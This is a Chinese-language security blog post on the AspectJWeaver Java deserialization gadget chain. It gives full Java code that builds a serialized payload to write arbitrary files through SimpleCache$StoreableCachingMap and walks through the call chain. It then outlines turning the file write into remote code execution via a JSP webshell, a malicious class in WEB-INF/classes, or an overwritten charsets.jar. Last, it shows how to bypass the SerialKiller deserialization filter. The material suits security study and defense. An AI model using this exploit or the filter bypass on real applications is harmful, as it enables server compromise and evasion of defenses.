



# 0x01 What is AspectJWeaver

AspectJWeaver运用在面向切面编程(AOP: Aspect Oriented Programming)中

AOP是一种编程范式，旨在提高模块化、降低代码耦合度。它可以向现有代码添加其他行为而不修改代码本身。Spring就运用到了AOP

AOP的一些概念：

* 切面(Aspect): 公共功能的实现。如日志切面、权限切面、验签切面。给Java类使用`@Aspect`注释修饰，就能被AOP容器识别为切面
* 通知(Advice): 切面的具体实现，即切面类中的一个方法，根据放置的地方不同，可分为前置通知（Before）、后置通知（AfterReturning）、异常通知（AfterThrowing）、最终通知（After）与环绕通知（Around）
* 连接点(JoinPoint): 程序在运行过程中能够插入切面的地方。Spring只支持方法级的连接点。比如一个目标对象有5个方法，就有5个连接点
* 切入点(PointCut): 用于定义通知应该切入到哪些连接点
* 目标对象(Target): 即将切入切面的对象，被通知的对象
* 代理对象(Proxy): 将通知应用到目标对象之后被动态创建的对象，可以简单地理解为，代理对象的功能等于目标对象本身业务逻辑加上共有功能。代理对象对于使用者而言是透明的，是程序运行过程中的产物。目标对象被织入公共功能后产生的对象。
* 织入(Weaving): 将切面应用到目标对象从而创建一个新的代理对象的过程。这个过程可以发生在编译时、类加载时、运行时。Spring是在运行时完成织入，运行时织入通过Java语言的反射机制与动态代理机制来动态实现。

大概了解一下，跟下面讲的利用链没啥关系

# 0x02 Any File Write

这个利用链用到了CC依赖。回忆一下，Commons Collections 3.2.2中 增加了⼀个⽅法`FunctorUtils#checkUnsafeSerialization` ⽤于检测反序列化是否安全，其会检查常⻅的危险Transformer类，当我们反序列化包含这些对象时就会抛出异常。

`AspectJWeaver`这里只用到了CC里的`LazyMap`、`TiedMapEntry`、`ConstantTransformer`，高版本CC仍具有实用性。

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.2</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.9.2</version>
</dependency>
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        String path = "E:/";
        String fileName = "AspectWrite.txt";
        Class<?> clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor<?> constructor = clazz.getDeclaredConstructor(String.class, int.class);
        constructor.setAccessible(true);
        Map map = (Map) constructor.newInstance(path, 2);
        Transformer transformer = new ConstantTransformer("content to write".getBytes(StandardCharsets.UTF_8));

        Map lazyMap = LazyMap.decorate(map, transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, fileName);

        HashSet<Object> hs = new HashSet<>(1);
        hs.add("aaa");
        setPut(hs, entry);
        ser(hs);
    }

    private static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(o);
        objectOutputStream.close();

        File file = new File("E:/ser");
        FileOutputStream outputStream = new FileOutputStream(file);
        outputStream.write(baos.toByteArray());
        outputStream.close();
    }

    private static void deser() throws Exception {
        byte[] fileBytes = Files.readAllBytes(Paths.get("E:/ser"));
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(fileBytes));
        objectInputStream.readObject();
    }

    public static void setPut(HashSet<Object> hs, Object o) throws Exception {
        // 获取HashSet中的HashMap对象
        Field field;
        try {
            field = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            field = HashSet.class.getDeclaredField("backingMap");
        }
        field.setAccessible(true);
        HashMap innerMap = (HashMap) field.get(hs);

        // 获取HashMap中的table对象
        Field field1;
        try {
            field1 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            field1 = HashMap.class.getDeclaredField("elementData");
        }
        field1.setAccessible(true);
        Object[] array = (Object[]) field1.get(innerMap);

        // 从table对象中获取索引0 或 1的对象，该对象为HashMap$Node类
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        // 从HashMap$Node类中获取key这个field，并修改为tiedMapEntry
        Field keyField = null;
        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (NoSuchFieldException e) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node, o);
    }
}
```

> HashSet#readObject
>
> -> HashMap#put(tiedMapEntry, new Object())
>
> -> HashMap#hash(tiedMapEntry)
>
> -> TiedMapEntry#hashCode
>
> -> TiedMapEntry#getValue
>
> -> LazyMap#get
>
> -> SimpleCache$StorableCachingMap#put
>
> -> SimpleCache$StorableCachingMap#writeToPath
>
> -> FileOutputStream#write()

```java
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

`StoreableCachingMap`是`HashMap`的子类，重写了`put`方法

```java
private StoreableCachingMap(String folder, int storingTimer){
    this.folder = folder;
    initTrace();
    this.storingTimer = storingTimer;
}

@Override
public Object put(Object key, Object value) {
    try {
        String path = null;
        byte[] valueBytes = (byte[]) value;

        if (Arrays.equals(valueBytes, SAME_BYTES)) {
            path = SAME_BYTES_STRING;
        } else {
            path = writeToPath((String) key, valueBytes);
        }
        Object result = super.put(key, path);
        storeMap();
        return result;
    } catch (IOException e) {//...
    }
    return null;
}

private String writeToPath(String key, byte[] bytes) throws IOException {
    String fullPath = folder + File.separator + key;
    FileOutputStream fos = new FileOutputStream(fullPath);
    fos.write(bytes);
    fos.flush();
    fos.close();
    return fullPath;
}
```

`writeToPath`实现写文件，folder和key拼接组成文件全路径。传入`StoreableCachingMap#put`的key为文件名，value为写入的内容。

但单纯的写文件危害不大，还得配合其他漏洞打。

如何将写文件升级为RCE呢

## 🌔Jsp WebShell

若目标应用支持解析JSP，直接写个Jsp WebShell

## 🌓class file in WEB-INF/classes

既然有反序列化入口，在`WEB-INF/classes`下写入一个恶意的字节码文件，在`readObject`或静态代码块中编写命令执行，然后再反序列化这个类。

## 🌒FatJar under SpringBoot

现很多应用都采用了SpringBoot打包成一个jar或者war包放到服务器上部署，我们无法往classpath写jsp或字节码文件了，那就考虑覆盖jdk的系统类。

由于jvm的类加载机制，并不会一次性把所有jdk中的jar包都进行加载。往目标环境写入/jre/lib/charsets.jar进行覆盖，然后在request header中加入特殊头部，此时由于给定了字符编码，会让jvm去加载charset.jar，从而触发恶意代码。

这种方法的缺点是目标$JAVA_HOME未知，需一个个尝试。

可以参考这篇文章👉[Click Me](https://landgrey.me/blog/22/)

# 0x03 Bypass SerialKiller

利用链中的`ConstantTransformer`在`SerialKiller`中被ban了

`https://github.com/ikkisoft/SerialKiller`

需要找一个和`ConstantTransformer`效果等同的`Transformer`

* ✖️`StringValueTransformer`

`transform`返回输入对象的字符串表示，会调用`toString()`



本以为这个能成，但后面写文件时会把value强转为`byte[]`，而`String`强转不了`byte[]`。

* ✔️`FactoryTransformer`+`ConstantFactory`





```java
Transformer transformer = FactoryTransformer.getInstance(ConstantFactory.getInstance("666".getBytes(StandardCharsets.UTF_8)));
```

